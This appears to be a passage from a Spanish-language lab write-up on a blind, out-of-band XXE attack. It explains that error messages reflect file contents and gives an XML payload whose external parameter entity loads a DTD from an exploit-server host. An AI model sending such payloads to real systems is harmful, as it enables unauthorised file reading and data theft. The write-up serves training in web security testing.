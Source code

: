 > Una vez comprobado que se trata de un ataque OOB, vemos que nos está mostrando el tipo de error en la respuesta, esto nos puede servir para intentar leer cualquier archivo reflejado en el error.

![](/img2/Pasted%20image%2020250816142532.png)

![](/img2/Pasted%20image%2020250816142629.png)

> Para ver el contenido de un archivo reflejado en la respuesta podemos intentar cargar un archivo en el sistema con una ruta errónea, la cual contiene la información de la entidad de parámetro creada en primer lugar.

- Injection

```xml
<?xml version="1.0" encoding="UTF-8"?>
  <!DOCTYPE foo [<!ENTITY % myReq SYSTEM "https://exploit-0ad60019037d6e5380b8e98b015f0076.exploit-server.net/exploit">%myReq;]>
  <stockCheck>
    <productId>
	    1
	</productId>
	<storeId>
		1
	</storeId>
  </stockCheck>
```
